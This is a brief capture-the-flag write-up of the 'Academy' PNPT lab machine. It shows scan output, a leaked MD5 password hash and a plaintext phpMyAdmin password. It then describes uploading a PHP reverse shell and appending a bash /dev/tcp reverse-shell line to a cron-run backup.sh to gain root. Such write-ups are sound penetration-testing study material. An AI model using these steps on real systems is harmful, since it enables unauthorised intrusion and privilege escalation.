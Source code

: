 ```yaml
---
title: academy (PNPT)

date: "2023-12-22"

author: "MatDef"

---
```


# Description:

# Information Gathering

## Enumeration

### nmap
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.111.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Ftp-anon: Found note.exe:
```sql
INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
```
Login Rum Ham: 10201321:student(MD5)
Academy admin: Grimmie (uses the same password )
SQL Database admin: jdelta
### gobuster
```shell
/academy              (Status: 301) [Size: 318] [--> http://192.168.111.11/academy/]
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.111.11/phpmyadmin/]
```
![profile-picture upload](images/academy_upload.png)

# Exploitation
Upload php-reverseshell and got Access
Found backup.sh which is also in crontab (runing every minute)
![](images/crontab.png)

Linpeas:
![](images/mysql_password.png)
phpMyAdmin: grimmie:My_V3ryS3cur3_P4ss

-> SSH Access

Modify backup.sh:
`echo "/bin/bash -i >& /dev/tcp/192.168.111.10/9002 0>&1" >> backup.sh`

Got Root-Shell
---

### References & Further Research
[Another PrivEsc: Linux chfn (SuSE 9.3/10)?](https://www.exploit-db.com/exploits/1299)